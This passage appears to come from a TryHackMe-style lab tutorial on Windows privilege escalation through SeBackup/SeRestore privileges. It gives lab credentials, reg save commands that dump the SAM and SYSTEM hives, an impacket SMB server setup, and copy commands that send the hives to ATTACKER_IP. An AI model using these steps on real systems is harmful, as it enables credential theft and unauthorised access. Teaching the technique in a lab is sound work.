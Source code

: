 User: THMBackup

Password: CopyMaster555

This account is part of the "Backup Operators" group, which by default is granted the SeBackup and SeRestore privileges. We will need to open a command prompt using the "Open as administrator" option to use these privileges. We will be asked to input our password again to get an elevated console:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/befb434f15dbd4deee0654f8b6ef6de0.png)

Once on the command prompt, we can check our privileges with the following command:
Command Prompt

```
C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeBackupPrivilege             Back up files and directories  Disabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

To backup the SAM and SYSTEM hashes, we can use the following commands:
Command Prompt

```
C:\> reg save hklm\system C:\Users\THMBackup\system.hive
The operation completed successfully.

C:\> reg save hklm\sam C:\Users\THMBackup\sam.hive
The operation completed successfully.
```
This will create a couple of files with the registry hives content. We can now copy these files to our attacker machine using SMB or any other available method. For SMB, we can use impacket's smbserver.py to start a simple SMB server with a network share in the current directory of our AttackBox:

```
Kali Linux

user@attackerpc$ mkdir share
user@attackerpc$ python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
        
```

This will create a share named public pointing to the share directory, which requires the username and password of our current windows session. After this, we can use the copy command in our windows machine to transfer both files to our AttackBox: 

```
Command Prompt

C:\> copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
C:\> copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\

        
```
